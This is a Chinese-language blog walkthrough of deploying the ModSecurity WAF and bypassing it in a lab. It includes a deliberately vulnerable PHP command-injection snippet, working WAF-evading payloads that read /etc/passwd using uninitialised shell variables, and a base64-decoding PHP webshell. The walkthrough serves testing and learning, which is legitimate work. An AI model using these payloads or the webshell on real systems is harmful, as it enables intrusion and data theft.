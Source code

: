 ```yaml
---
layout: about
category: about
Researchname:  Mod-Waf-Bypass-Walkthrough
toc: true
author: Bin4xin
permalink: /about/Mod-Waf-Bypass-Walkthrough/
desc: 「WAF」
---
```


# 「分享」ModsecWAF：老牌开源waf的绕过历程

## 零：连喊三声「WAF」

### 0x01 拿来WAF
依稀记得高中的一位物理老师的一段话，就拿这段话来开始吧；背景是当时刚学物理课程，很多人学会物理公式仅限于会用，他们在课堂上对我们的物理老师表达出了焦虑。
当然，研究生学历的物理老师对于这种学习上的困扰必然是经历过，然后提出了下面的观点，原话记不太清了，所以只能大概表述出意思：

>我知道你们现在有些迷茫，当然也是正常的。但是你们要想在某些领域上有所建树、突破，就要学会站在巨人的肩膀上看这个世界，鲁迅提出的拿来主义我觉得很适合用来学物理；
>**不管这些物理公式为什么是这样的、怎么得来的，先拿来用。**

「拿来主义」：
>是民国时期面对外来文化的冲击和中国封建时代遗留下来的文化，如何选择和取舍，于当时中国流行的闭关主义和全面西化的不同呼声；
>**鲁迅主张，既非被动地被“送去”，亦非不加分析地“拿来”，而是通过实用主义的观点选择性的“拿来”。**

所以我想：针对WAF也可以这样来学习，不知道WAF的工作原理没有关系，我们先把开源的WAF拿过来用，用了才知道WAF的优点、缺点；

同样的：只有用过之后，我们看到拦截日志后可以知道WAF的正则表达规则库，可以对WAF的工作方式有一些了解。

### 0x02 部署WAF

---

#### # Apache部署

[_进一步了解：APACHE中间件链接ModSec_](https://zhuanlan.zhihu.com/p/104931385){:target="_blank"}

没什么好说的，跟着教程一步步走基本上都能搞定。直接上部署成功的图：
![F3DUGveCgpkVqcl.png](https://image.yjs2635.xyz/images/2022/02/20/F3DUGveCgpkVqcl.png)
如上图，部署成功后可以看到访问`http://localhost?doc=/bin/ls`，WAF给出拦截操作，日志记录提示触发了`unix-shell.data`规则导致拦截返回403；

#### # Nginx部署

[_进一步了解：Nginx中间件链接ModSec_](https://zhuanlan.zhihu.com/p/80866123){:target="_blank"}

![cpsgLRObd9BTDao.png](https://image.yjs2635.xyz/images/2022/02/20/cpsgLRObd9BTDao.png)

同样的：访问`localhost:8011/?and 1=2--+`，触发WAF拦截规则返回403；需要注意的是：
- nginx版本，教程中推荐的1.9版本实际操作下来无法成功编译安装，这里推荐`nginx/1.13.8`
    * `wget http://nginx.org/download/nginx-1.13.8.tar.gz`
    
- 环境lib库安装：
    *  `sudo apt-get install openssl libssl-dev libpcre3 libpcre3-dev zlib1g-dev autoconf automake libtool gcc g++ make`
    
```bash
# [tips] 以下四条命令的含义：
$ sed -ie 's/SecDefaultAction "phase:1,log,auditlog,pass"/#SecDefaultAction "phase:1,log,auditlog,pass"/g' crs-setup.conf
$ sed -ie 's/SecDefaultAction "phase:2,log,auditlog,pass"/#SecDefaultAction "phase:2,log,auditlog,pass"/g' crs-setup.conf
$ sed -ie 's/#.*SecDefaultAction "phase:1,log,auditlog,deny,status:403"/SecDefaultAction "phase:1,log,auditlog,deny,status:403"/g' crs-setup.conf
$ sed -ie 's/# SecDefaultAction "phase:2,log,auditlog,deny,status:403"/SecDefaultAction "phase:2,log,auditlog,deny,status:403"/g' crs-setup.conf
```

* 将下面查看`crs-setup.conf`文件输出中1、2行（下文2、3行）的内容注释，文件中5、6行（下文6、7行）取消注释； 
    
```bash
cat crs-setup.conf|grep SecDefaultAction
#SecDefaultAction "phase:1,log,auditlog,pass"
#SecDefaultAction "phase:2,log,auditlog,pass"
# SecDefaultAction "phase:1,nolog,auditlog,pass"
# SecDefaultAction "phase:2,nolog,auditlog,pass"
SecDefaultAction "phase:1,log,auditlog,deny,status:403"
SecDefaultAction "phase:2,log,auditlog,deny,status:403"
# SecDefaultAction "phase:1,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
# SecDefaultAction "phase:2,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
```

其他根据教程往下走即可。

### 0x03 绕过WAF

#### # 未初始变量进行绕过
跟随大佬们的脚步走，使用简单的php代码进行WAF测试：
```php
<?php
        if(isset($_GET['host'])) {
        system('dig'.$_GET['host']);
        }
?>
```
如上代码尝试绕过WAF。我们知道终端执行`dig www.baidu.com;cat /etc/passwd`实际执行如下：
```bash
dig www.baidu.com;cat /etc/passwd

; <<>> DiG 9.10.6 <<>> www.baidu.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 27659
;; flags: qr rd; QUERY: 1, ANSWER: 3, AUTHORITY: 5, ADDITIONAL: 4
;; WARNING: recursion requested but not available
···
···
···
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
··
··
_oahd:*:441:441:OAH Daemon:/var/empty:/usr/bin/false
```
在终端下相同作用的链接符号还有`&&`；

直接传参`www.baidu.com;cat+/etc/passwd`注入明显的攻击行为直接返回403，查看日志匹配到以下特征：
- 1、`"Operator Rx' with parameter ^[\d.:]+$' against variable`，存在运算符；
- 2、`Operator PmFromFile' with parameter lfi-os-files.data'`，正则匹配到lfi-os-files的规则库；
- 3、`characters omitted`，特殊字符；
- 4、`"Operator PmFromFile' with parameter unix-shell.data'`，正则匹配到unix-shell的规则库；
- 5、`Operator Ge' with parameter 5'`，同样为存在运算符。
所以根据以上特征进行规则探测并注入fuzz：


---

- `+$u+cat+/$uetc/$upasswd$u`
- `+$ucat+$u/etc$u/passwd`
以上都返回200，但是没有回显，说明命令写的不对；

实际测试`/etc`、`/passwd`和特殊字符等不能单独出现，所以使用未初始变量`$u`包住后进行注入；
下面是实际生效的payload：
- `+$u+cat+/etc$u/passwd$u`
- `+$u+cat+$u/etc$u/passwd`

![FZQOLd6txseIgRu.png](https://image.yjs2635.xyz/images/2022/02/20/FZQOLd6txseIgRu.png)

## 一：编写poc脚本连接器

通过以上绕过首发即可执行任意代码，我们可以直接写入一句话木马，但是这不是本段的重点；

本段的重点是通过实际测试发现base64编码后可以完美绕过waf，所以可以直接写入一个base64的马，然后连接，实际上就是解决实现一个webshell连接器，实现
功能类似一个蚁剑的cmd连接功能；这样以来WAF就形同虚设了。
webshell代码：
```php
<?php system(base64_decode($_GET['CMD']));?>
```
- GET/POST请求传入cmd
- base64加密参数内容
- 类似终端执行代码
实现效果如下：

![OtD5wZ6Hafyd8TJ.jpg](https://image.yjs2635.xyz/images/2022/02/20/OtD5wZ6Hafyd8TJ.jpg)


参考的是[@IppSec]的代码，简单修改了部分。
[参考代码](https://github.com/IppSec/forward-shell/blob/master/forward-shell.py){:target="_blank"}

---

以上